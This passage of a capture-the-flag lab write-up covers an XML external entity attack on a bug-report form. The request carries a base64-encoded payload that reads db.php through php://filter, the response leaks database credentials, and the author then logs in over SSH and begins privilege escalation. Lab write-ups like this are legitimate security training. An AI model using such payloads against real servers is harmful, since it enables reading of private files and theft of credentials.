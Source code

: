 ```http
Origin: http://10.129.198.241
DNT: 1
Connection: close
Referer: http://10.129.198.241/log_submit.php
Sec-GPC: 1
data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWw
o8IUVOVElUWSBmaWxlIFNZU1RFTSAicGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc
291cmNlPS92YXIvd3d3L2h0bWwvZGIucGhwIj4gXT4KPGJ1Z3JlcG9ydD4KPHRpdGxlPnRlc3Q8L3RpdGxlPgog
IDxjd2U%2bdGVzdDwvY3dlPgogIDxjdnNzPnRlc3Q8L2N2c3M%2bCiAgPHJld2FyZD4mZmlsZTs8L3Jld2FyZD4
KPC9idWdyZXBvcnQ%2bCg%3d%3d
```

```
This is our response
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "<REDACTED>";
$testuser = "test";
?>
```
Nice! Lets see SSH in with these creds and see what we can find.

At first, it seems we can't login as admin, but we can login as `development` with the password `<REDACTED>`.


# Privesc


The user flag can be found in the home directory of the `development` user. We can also find a .txt file named `contract.txt`, lets read it!
```bash
cat contract.txt
```
```txt 
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```
It seems like we need to look into the internal tool that Skytrain Inc sent over. We can see that there are some tickets that have been failing validation. Lets take a look around and see if we can find that tool.
